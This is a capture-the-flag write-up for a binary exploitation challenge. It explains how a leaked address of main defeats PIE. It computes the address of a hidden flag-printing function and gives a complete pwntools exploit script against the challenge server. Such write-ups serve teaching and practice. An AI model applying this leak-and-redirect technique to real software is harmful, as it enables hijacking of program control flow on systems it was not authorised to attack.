 # jumPIEng

**Category:** Binary Exploitation

Harry, a rookie in the realm of Capture The Flag competitions, has just begun exploring the intricacies of binary exploitation—specifically the concept of Position-Independent Executables (**PIE**). Convinced that PIE makes the binary unbreakable if any addresses are discovered, Harry challenges us to extract the flag from his program, which only leaks the runtime address of `main`. Let's prove him wrong!

---

nc 34.131.133.224 12346

## Challenge

**Provided File:** redirection


---

## Overview

1. **PIE & Address Leaks**  
   PIE randomizes the load address of the binary each time it runs. However, if you can obtain **any** function’s runtime address (like `main`), you can compute the program's **base address**.

2. **Leveraging the Main Address**  
   The challenge conveniently prints the runtime address of `main`. By subtracting the known offset of `main` in the ELF file, we can calculate the **base address** where the binary is loaded.

3. **Redirecting Execution**  
   The binary has a hidden or unreferenced function named `redirect_to_success`. Once we know the base address, we can compute where `redirect_to_success` lives in memory and redirect the program flow to it, thereby triggering the flag-print routine.

---

## Steps to Exploit

1. **Receive the Leaked Main Address**  
   - The remote program prints the address of `main`. Parse this value.

2. **Calculate the Base Address**  
   - Subtract the known offset (ELF symbol) of `main` from the leaked address:
     ```python
     base_address = leaked_main - e.symbols['main']
     ```

3. **Compute the Flag Function Address**  
   - Add the offset of `redirect_to_success` to the base address:
     ```python
     redirect_address = base_address + e.symbols['redirect_to_success']
     ```

4. **Jump to Flag Function**  
   - Send the computed address back to the challenge service, causing the program to execute the flag-printing function.

---

## Exploit Script

```python
from pwn import *

binary = './redirection'
context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = remote('34.131.133.224', 12346)  # Connect to the challenge server

# Step 1: Receive the main address
r.recvuntil('Main function address: ')
main_leaked = r.recvline()
main_leaked = int(main_leaked, 16)

# Step 2: Calculate base address
base_address = main_leaked - e.symbols['main']
log.info(f'Base address: {hex(base_address)}')

# Step 3: Compute the address of the "redirect_to_success" function
redirect_address = base_address + e.symbols['redirect_to_success']
log.info(f'Redirect address: {hex(redirect_address)}')

# Step 4: Send the address to redirect the program's execution
r.sendline(hex(redirect_address))
r.interactive()

